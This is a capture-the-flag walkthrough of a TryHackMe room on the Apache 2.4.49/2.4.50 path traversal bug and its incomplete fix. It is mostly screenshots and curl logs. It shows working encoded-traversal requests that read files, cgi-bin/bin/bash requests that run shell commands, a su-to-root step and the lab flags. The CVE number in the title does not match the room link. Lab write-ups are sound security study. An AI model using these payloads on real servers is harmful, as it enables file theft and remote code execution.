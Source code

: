 <h1 align="center">CVE-2021-41772/42014</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>A small explanation of an Apache path traversal bug and an incomplete fix</em>.<br>
Access it <a href="https://tryhackme.com/room/cve202141773"</a>here.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/094c2313-0800-476f-8c7e-df2d68919be0"></p>

<br>

![image](https://github.com/user-attachments/assets/85a38630-7b4d-4239-85e5-4f1850c0d7e2)

![image](https://github.com/user-attachments/assets/9fd50766-fb44-4cd3-beef-400de55543ab)

![image](https://github.com/user-attachments/assets/34a37380-86a9-4669-8738-85f848df40b9)

```bash
```

![image](https://github.com/user-attachments/assets/aa2b002a-2bcd-4926-96eb-c2d69f989a44)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 1... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
* Connection #0 to host 10.10.160.15 left intact
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/b6815ccb-f7ef-4a9d-9f48-295af3dd60c6)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
...
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/ab8d18f3-c960-477c-ad4c-68216453b860)

```bash
:~/InfoRoom# curl -v 'http://1TargetIP:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{2C3_F20M_C61}
```

![image](https://github.com/user-attachments/assets/2d55a44b-a61a-4e23-b176-ffde1fd0445a)


```bash
:~/InfoRoom# curl -v 'http://TargetIP:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
...
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "18-5ce102e26103d"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/plain
< 
...
THM{D0UBL3_3NC0D1N6_F7W}
```

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
*   Trying 10.10.160.15:8083...
* TCP_NODELAY set
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{F1L732_8YP455_2C3}
```

![image](https://github.com/user-attachments/assets/7c519922-90a4-44a2-916c-6e5ec4e68724)


```bash
daemon@18c7613b3859:/bin$ whoami
whoami
daemon
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/bin
cd /root
ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}
```


<br>
<br>

![image](https://github.com/user-attachments/assets/6a81a593-6122-4acb-801d-162bb1f46795)

![image](https://github.com/user-attachments/assets/5a401eff-c01a-48a8-8927-2af2fafc5b65)

